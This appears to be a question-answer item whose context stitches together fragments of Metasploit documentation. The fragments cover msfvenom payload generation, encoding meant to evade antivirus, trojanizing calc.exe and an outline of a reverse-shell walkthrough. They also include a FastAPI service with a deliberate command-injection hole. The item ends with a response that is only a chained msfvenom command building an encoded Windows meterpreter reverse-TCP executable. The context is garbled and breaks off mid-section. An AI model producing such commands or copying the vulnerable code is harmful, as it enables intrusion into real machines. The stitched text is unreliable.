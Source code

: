 Context:# How to generate a payload  
To generate a payload, there are two flags that you must supply (-p and -f):  
* **The -p flag: Specifies what payload to generate**  
To see what payloads are available from Framework, you can do:  
```
./msfvenom -l payloads  
The -p flag also supports "-" as a way to accept a custom payload:  
```
cat payload_file.bin | ./msfvenom -p - -a x86 --platform win -e x86/shikata_ga_nai -f raw  
* **The -f flag: Specifies the format of the payload**  
Syntax example:  
```
./msfvenom -p windows/meterpreter/bind_tcp -f exe  
To see what formats are supported, you can do the following to find out:  
```
./msfvenom --help-formats  
Typically, this is probably how you will use msfvenom:  
```
$ ./msfvenom -p windows/meterpreter/reverse_tcp lhost=[Attacker's IP] lport=4444 -f exe -o /tmp/my_payload.exe  
# How to encode a payload  
By default, the encoding feature will automatically kick in when you use the -b flag (the badchar flag). In other cases, you must use the -e flag like the following:  
```
./msfvenom -p windows/meterpreter/bind_tcp -e x86/shikata_ga_nai -f raw  
To find out what encoders you can use, you can use the -l flag:  
```
./msfvenom -l encoders  
You can also encode the payload multiple times using the -i flag. Sometimes more iterations may help avoiding antivirus, but know that encoding isn't really meant to be used a real AV evasion solution:  
```
./msfvenom -p windows/meterpreter/bind_tcp -e x86/shikata_ga_nai -i 3  
# How to avoid bad characters  
The -b flag is meant to be used to avoid certain characters in the payload. When this option is used, msfvenom will automatically find a suitable encoder to encode the payload:  
```
./msfvenom -p windows/meterpreter/bind_tcp -b '\x00' -f raw  
# How to supply a custom template  
By default, msfvenom uses templates from the msf/data/templates directory. If you'd like to choose your own, you can use the -x flag like the following:  
```
./msfvenom -p windows/meterpreter/bind_tcp -x calc.exe -f exe > new.exe  
Please note: If you'd like to create a x64 payload with a custom x64 custom template for Windows, then instead of the exe format, you should use exe-only:  
```
./msfvenom -p windows/x64/meterpreter/bind_tcp -x /tmp/templates/64_calc.exe -f exe-only > /tmp/fake_64_calc.exe  
The -x flag is often paired with the -k flag, which allows you to run your payload as a new thread from the template. However, this currently is only reliable for older Windows machines such as x86 Windows XP.  
# How to chain msfvenom output  
The old ``msfpayload`` and ``msfencode`` utilities were often chained together in order layer on multiple encodings. This is possible using ``msfvenom`` as well:  
```
./msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.0.3 LPORT=4444 -f raw -e x86/shikata_ga_nai -i 5 | \
./msfvenom -a x86 --platform windows -e x86/countdown -i 8  -f raw | \
./msfvenom -a x86 --platform windows -e x86/shikata_ga_nai -i 9 -f exe -o payload.exe
## On this page
* [List of Metasploit reverse shells](#list-of-metasploit-reverse-shells)
* [Windows common reverse shell](#windows-common-reverse-shell)
* [Linux common reverse shell](#linux-common-reverse-shell)
* [When to use a reverse shell](#when-to-use-a-reverse-shell)
* [When a reverse shell isn't needed](#when-a-reverse-shell-isnt-needed)
* [How to set up for a reverse shell during payload generation](#how-to-set-up-for-a-reverse-shell-during-payload-generation)
* [Demonstration](#demonstration)
* [Step 1: Generate the executable payload](#step-1-generate-the-executable-payload)
* [Step 2: Copy the executable payload to box B](#step-2-copy-the-executable-payload-to-box-b)
* [Step 3: Set up the payload handler on box A](#step-3-set-up-the-payload-handler-on-box-a)
* [Step 4: Double-click on the malicious executable](#step-4-double-click-on-the-malicious-executable)
* [Step 5: View the meterpreter/payload session on box A](#step-5-view-the-meterpreterpayload-session-on-box-a)  
There are two popular types of shells: bind and reverse.
Bind shell - Opens up a new service on the target machine and requires the attacker to connect to it to get a session.
Reverse shell - A reverse shell is also known as a connect-back. It requires the attacker to set up a listener first on his box, the target machine acts as a client connecting to that listener, and then finally, the attacker receives the shell.  
You can learn more about the primary use of payloads in the 5.2.4 Selecting the Payload section of the old [Metasploit Users Guide](http://cs.uccs.edu/~cs591/metasploit/users_guide3_1.pdf).  
This article goes over using a reverse shell to get a session.  
## List of Metasploit reverse shells  
To get a list of reverse shells, use the `msfpayload` command. B  
```bash
./msfpayload -l |grep reverse
If you've found a way to execute a command on a target, and you'd like to make a simple exploit module to get a shell, this guide is for you. Alternatively, if you have access to **fetch** commands on the target (curl, wget, ftp, tftp, tnftp, or certutil), you can use a [[Fetch Payload|How-to-use-fetch-payloads]] for a no-code solution.  
By the end of this guide you'll understand how to turn [Command injection](https://owasp.org/www-community/attacks/Command_Injection) into a shell - from here, you can move on to the [[command stager|How-to-use-command-stagers]] article and upgrade your basic `:unix_cmd` Target to a Dropper for all kinds of payloads with variable command stagers.  
This guide assumes *some* knowledge of programming (Understand what a class is, what methods/functions are) but expects no in-depth knowledge of Metasploit internals.  
## A Vulnerable Service  
For the vulnerable service test case, we'll be using a simple FastAPI service. This is very easy to spin up:  
1. Install `fastapi[all]` using your preferred Python package manager (a virtual environment is recommended)
2. Create a file to hold some Python code (I'll call it `main.py`)
3. Copy the following code into your file:  
```python
from fastapi import FastAPI, Response
import subprocess

app = FastAPI()

@app.get("/ping")
def ping(ip : str):
res = subprocess.run(f"ping -c 1 {ip}", shell=True, capture_output=True)
return Response(content=res.stdout.decode("utf-8"), media_type="text/plain")

 Question: Generate a list of Bash commands to create EXE payloads for Windows using Metasploit. Each command should generate a reverse TCP payload and follow the format for Metasploit's msfvenom tool, targeting Windows systems.Respond with only bash command with no output or other text explaination.  
```
 Your response: 
```bash
./msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.0.3 lport=4444 -f raw -e x86/shikata_ga_nai -i 5 | ./msfvenom -a x86 --platform windows -e x86/countdown -i 8 -f exe -o payload.exe
```
